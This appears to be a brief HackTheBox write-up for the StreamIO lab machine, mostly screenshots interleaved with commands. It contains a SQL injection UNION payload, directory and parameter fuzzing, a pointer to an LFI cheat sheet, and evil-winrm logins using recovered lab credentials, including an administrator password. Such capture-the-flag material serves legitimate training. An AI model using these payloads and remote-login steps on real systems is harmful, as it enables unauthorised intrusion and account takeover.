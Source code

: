 ### 10-Apr-24-Wed

[StreamIO | HackTheBox](https://app.hackthebox.com/machines/StreamIO)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/204ee319-d3a9-4a69-9e02-5173ef819f78)

https://watch.streamio.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d25ab733-d4e5-45d3-a9ca-84f4fb480295)

https://streamio.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/52a3f29b-2a87-438d-890a-4e5818aa47c1)

https://streamio.htb/about.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/501af516-8946-4fa7-8785-45fdf29f949f)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/53101010-1467-4d83-b9ec-5c541f2256b9)

```
gobuster dir -u https://watch.streamio.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x php
```

https://watch.streamio.htb/search.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d7e3ae36-f14e-4f6e-8842-451cf00f2e9a)

```
10' union select 1,2,3,4,5,6 -- -
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d342771b-ead6-4ce9-970a-5868203e21ad)

https://streamio.htb/admin/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ca00d9a9-26e4-4884-84fb-d77ebd460098)

https://streamio.htb/admin/?user=

https://streamio.htb/admin/?staff=

https://streamio.htb/admin/?movie=

https://streamio.htb/admin/?message=

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/f633915c-1131-4d14-a698-a92ef575c1d0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/91ed6672-3530-4d10-a841-a3002f2c4cca)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -b PHPSESSID=oppf80usq814frvij7kngtc4qu --fs 1678
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/6f360eda-9cd8-40ab-b06f-243dc0fd85c3)

https://streamio.htb/admin/?debug=

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/61490368-9ed5-4c9e-a4ec-92c675bbd00b)

[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)





```
crackmapexec winrm streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/14ddd8bb-b390-4941-94d5-1473bdc4430d)

```
evil-winrm -i streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/70d82f9f-610a-4a79-9f95-9a5fd6d15bf0)

```
c598605d1a7a76839eb04e8026677386
```

```
evil-winrm -i streamio.htb -u administrator -p '-6/8RYZp4hY6t)'
```

